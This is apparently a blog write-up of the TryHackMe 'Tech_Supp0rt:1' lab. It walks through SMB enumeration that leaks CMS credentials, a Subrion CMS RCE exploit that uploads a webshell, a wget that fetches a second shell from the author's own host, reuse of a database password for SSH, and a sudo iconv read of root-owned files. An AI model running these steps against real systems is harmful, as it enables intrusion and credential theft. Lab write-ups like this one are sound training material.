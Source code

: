 ```yaml
---
layout: default
title: Tech_Support:1
description: THM - Tech_Supp0rt:1
---
```


## Enumeration

Fired up nmap and gobuster.

```
Nmap scan report for <IP>
Host is up (0.067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
```
/wordpress       (Status: 301) [Size: 316]
/test            (Status: 301) [Size: 311]
/server-status   (Status: 403) [Size: 277]
```
### SMB Enumeration:
```
 Disk                            Permissions
----                             -----------
print$                            NO ACCESS
websvr                            READ ONLY
IPC$                              NO ACCESS
```
Before checking out the web pages, I'll access the “websvr” share and see if there's anything juicy inside.

```
smbclient -N //<IP>/websvr

smb: \> ls
  .                                   D        0  Sat May 29 10:17:38 2021
  ..                                  D        0  Sat May 29 10:03:47 2021
  enter.txt                           N      273  Sat May 29 10:17:38 2021

                8460484 blocks of size 1024. 5693200 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exit

cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:[REDACTED] [cooked with magical formula]
Wordpress creds
|->
```

Now this is interesting. We found Subrion credentials. I'll throw them into Cyberchef and see what pops up.

![CyberChef](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/1.png)

We now have the Subrion CMS admin credentials. Let's look around on the website.

first I tried accessing “/subrion”, but then, when it wasn't working, I went backwards, and noticed the entry in “enter.txt”, which states that “/subrion”
doesn't work, and to use the panel. So i tried the next best thing. “/subrion/panel”.
And what do you know! It worked!

![Subrion Panel](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/2.png)

Now, this CMS gracefully provided us with the version, so it won't hurt looking for a CVE, right ?
Bingo!
CVE-2018-19422-SubrionCMS-RCE

Let's try logging in with the credentials we gathered, because the exploit requires authentication.

(Meanwhile I also enumerated the wordpress site and found the user “support”. I'll save it, maybe it'll come in handy)

Aaaand we logged in:
![Subrion Dash](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/3.png)

## Exploitation

Let's try the RCE.

```
python3 SubrionRCE.py -u http://<IP>/subrion/panel/ -l admin -p [REDACTED]
[+] Trying to connect to: http://<IP>/subrion/panel/
[+] Success!
[+] Got CSRF token: [REDACTED]
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: mwfyhhiowaujnqk

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://<IP>/subrion/panel/uploads/mwfyhhiowaujnqk.phar

$ whoami
www-data
```
I then uploaded another shell, because this one is a bit fucky, and upgraded using a python TTY
```
$ wget http://10.18.116.220:8000/shell.php

$ ls
mwfyhhiowaujnqk.phar
shell.php
zrqcdnixvfcwxop.phar

$ php shell.php

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TechSupport:/$
```
We cd into the /opt directory, empty.
Cd into the /home directory, there's the scamsite directory with the “enter.txt” file we found earlier.

So i'll start looking for SUID binaries, since we don't have sudo permissions.
```
find / -perm -u=s -type f 2>/dev/null
```
No luck there, so we start snooping around. You can check default locations, or you can use linpeas.
I opted for linpeas.
```
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
```
And what do you know, it found a pasword for the user “support”. I'll try to ssh into the machine using the “scamsite” user that we found, and this password.
Aaand it worked.

Let's see what we can do from this user. First of all, I'm gonna ssh into the machine for a more stable shell.

## Privilege Escalation:
```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
scamsite may use iconv to read files. We could use it to read and crack the /etc/shadow file, or the id_rsa from the root folder. But that's not necessary for proof of completion, so we'll just read "/root/root.txt"
```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```
And we got the flag!
![Flag](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/4.png)


[back](./)
